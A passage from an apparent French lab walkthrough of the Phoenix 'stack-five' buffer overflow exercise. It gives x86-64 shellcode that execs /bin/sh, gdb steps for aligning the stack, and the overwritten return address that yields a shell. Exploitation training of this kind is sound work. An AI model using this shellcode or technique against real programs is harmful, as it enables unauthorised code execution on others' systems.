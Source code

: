 - Le gdb de la VM n'aime pas avoir du python comme entrée, du coup je crée une variable d'environnement qui stockera un shellcode de **57 octets** et **79 'E'**, vu que l'adresse du buffer contiendra des zéros, on la passera directement via un `echo -ne` ou un `printf`.

```sh
export fill=$(printf "\x48\x31\xc0\x50\x5f\xb0\x03\x0f\x05\x50\x48\xbf\x2f\x64\x65\x76\x2f\x74\x74\x79\x57\x54\x5f\x50\x5e\x66\xbe\x02\x27\xb0\x02\x0f\x05\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x50\x57\x54\x5e\x48\x99\xb0\x3b\x0f\x05"$(python3 -c 'print("E"*79)'))
```

- Les variables d'environnement sont chargées en mémoire au-dessus de la pile, une modification de ces dernières décalera le début de la pile, et changera l'adresse où commence le buffer.
- En lançant **gdb** faites toujours en sorte d'exécuter ses instructions avant `run` ou `start`, pour avoir le même début de pile que si on exécute le code via le terminal:

```sh
    user@phoenix-amd64:~$ gdb /opt/phoenix/amd64/stack-five
    (gdb) unset env LINES
    (gdb) unset env COLUMNS
    (gdb) set env _=/opt/phoenix/amd64/stack-five
    (gdb) b *start_level+20 # c'est l'adresse de l'instruction nop dans start_level (4005a1)
    (gdb) run < <(printf $fill"\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF") # juste pour tester
```

> On utilise `<()` pour la substitution de processus et non `$()`, afin de conserver les caractères spéciaux. Sachez qu'avec `$()`, le shell interprète la sortie du sous-processus comme une chaîne de caractères, ce qui peut entraîner la perte de caractères nuls `\x00` et d'autres caractères spéciaux. Avec `<()`, on crée un fichier temporaire qui conserve tous les caractères dans leur forme brute, y compris les caractères nuls et autres caractères spéciaux (référence : [GNU](https://www.gnu.org/software/bash/manual/bash.html#Process-Substitution)).

- On s'arrète avant le `leave` pour avoir la valeur de `%rbp - 0x80` qui va être changer en `%rbp` après cette commande. Et là, on retient l'adresse de `%rsp`:`0x00007fffffffe450` (elle est sûrement différente chez vous !!). On peut faire deux `stepi` pour arriver à `ret`, là on remarque que la valeur pointée par `%rsp`=`0xffffffffffffffff`, et que gdb affiche `Cannot disassemble from $PC` vu que l'adresse de retour pointe vers de l'espace kernel.

- En relançant gdb en écrivant la bonne adresse du buffer à la place de l'adresse de retour, on obtient:

```sh
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) set env _=/opt/phoenix/amd64/stack-five
(gdb) run < <(printf $fill"\x50\xe4\xff\xff\xff\x7f\x00\x00")

Starting program: /opt/phoenix/amd64/stack-five < <(printf $fill"\x50\xe4\xff\xff\xff\x7f\x00\x00")
Welcome to phoenix/stack-five, brought to you by https://exploit.education
process 428 is executing new program: /bin/dash
warning: Could not load shared library symbols for linux-vdso.so.1.
Do you need "set solib-search-path" or "set sysroot"?

$ # shell started
```

- Quand vous lancerez le programme depuis le terminal, utilisez le chemin absolu pour avoir la même valeur pour la variable `_` que ce qu'on a mis sur gdb.
